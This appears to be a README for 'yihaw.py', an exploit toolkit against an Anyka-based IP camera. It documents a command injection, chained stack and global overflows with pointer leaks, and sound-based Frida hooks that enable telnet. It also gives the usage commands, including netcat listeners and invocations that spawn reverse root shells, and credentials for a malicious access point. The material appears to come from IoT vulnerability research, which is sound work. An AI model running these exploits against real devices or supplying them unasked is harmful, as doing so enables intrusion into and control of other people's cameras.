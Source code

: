 ## `daemon_cmd_injection`

Exploits mishandling of a filename in the processing of a daemon packet which causes a command injection. Exploited to get a reverse root shell.

- Terminal 1: `sudo nc -l 123`
- Terminal 2: `python3 yihaw.py daemon_cmd_injection *YOUR IP* 123`

## `daemon_global_stack_overflow_exploit`

Chains together a global overflow (to leak a pointer via port 8192) and a stack overflow in the handling of a daemon packet to spawn a reverse root shell.

- Terminal 1: `sudo nc -l 123`
- Terminal 2: `python3 yihaw.py daemon_global_stack_overflow_exploit *YOUR IP* 123`

## `daemon_ftp_stack_overflow_exploit`

Same as above, but instead of using the global overflow to leak the base address of `libc`, it uses the exposed FTP server to get the address.

- Terminal 1: `sudo nc -l 123`
- Terminal 2: `python3 yihaw.py daemon_ftp_stack_overflow_exploit *YOUR IP* 123`

## `anyka_get_ipc`

Sends `Anyka IPC, Get IP Address!" to port 8192 which will get some information about the camera.

```
python3 yihaw.py anyka_get_ipc
```

## `sonic_bug_1_hook_gen`

Generates a frida hook which will generate a sound that exploits a stack overflow. Due to ASLR, an OOB read is also used to leak a pointer to work out base addresses - so you will need to be connected to the cameras access point when generating this hook.

This exploit turns on the cameras LED lights.

```
python3 yihaw.py sonic_bug_1_hook_gen
```

## `sonic_bug_2_hook_gen`

Generates a frida hook which will generate a sound that exploits a global overflow (by causing a consequent command injection) in the parsing of sound (which contains encoded wifi credentials) to turn on telnet. This can be connected to via the access point associated with the credentials send to the camera (once the camera has connected).

*Note:* For this to work, the credentials of your malicious access point must be:
- SSID: `wifi_1C98B0`
- Password: `hell0world`
